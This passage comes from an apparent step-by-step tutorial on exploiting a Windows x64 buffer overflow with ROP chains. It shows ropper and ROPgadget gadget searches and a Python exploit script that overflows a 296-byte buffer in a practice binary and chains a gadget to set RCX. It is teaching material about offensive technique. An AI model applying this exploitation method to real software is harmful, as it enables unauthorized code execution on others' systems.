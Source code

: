 In order to do this, we need to contruct ROP chains that locate those values and assign them to the proper registers.  Let's go ahead and kick things off by loading `ropper` or '`ropgadget'. Whichever you prefer.  I'll show examples of using each.  We need to get a list of all possible ROP gadgets that would prove useful towards our needs.  Specifically, assigning values to our registers and issuing a 'RET' afterwards.

**Ropper (`ropper -f [vulnerable.exe]`)**

```bat
C:\Users\robbi\Documents\GitHub\elevationstation_local>ropper -f overflow3.exe >> ropradgets.txt
[INFO] Load gadgets for section: .text
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
```

**RopGadget (`py ropgadget --binary [vulnerable.exe]`)**

```bat
C:\Users\robbi\Desktop\ROPgadget-7.5>py ROPgadget.py --binary c:\users\robbi\Documents\GitHub\elevationstation_local\overflow3.exe >> ropgadgets2.txt
```

Let's open up both of those .txt files and we're going to look for instructions we can use to set the easiest register 1st, the `RCX` register.  Here's an instruction I found that fits the bill nicely:

![image](https://github.com/user-attachments/assets/b3e46a14-a477-4e61-bb6c-dfee05ea803d)

Don't mind the fact it sets `ECX` instead of `RCX`.  As long as the 0 is set the lower 32 bits of RCX, we're good.  (ECX is simply the lower 32 bits of RCX).

Using python, let's see how this all comes together to shape our buffer overflow exploit and use our first ROP gadget:

```python
import struct
import subprocess

# Offset to the return address
junk = 296  # junk  (296 bytes)

payload = b"\x41" * junk

#rop gadget(s) for setting the RCX register value
###################################################
payload += struct.pack("<Q", 0x14000276f)  # xor ecx, ecx; mov rax, r9; ret; 
# rcx should now be set to 0

# Run the vulnerable program and supply the payload
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/overflow3.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

#uncomment to allow debugging in x64dbg
input("attach 'overflow.exe' to x64Dbg and press enter when you're ready to continue...")

# Send the payload
stdout, stderr = process.communicate(input=payload)

# Output the program's response
print(stdout.decode())
if stderr:
    print(stderr.decode())

```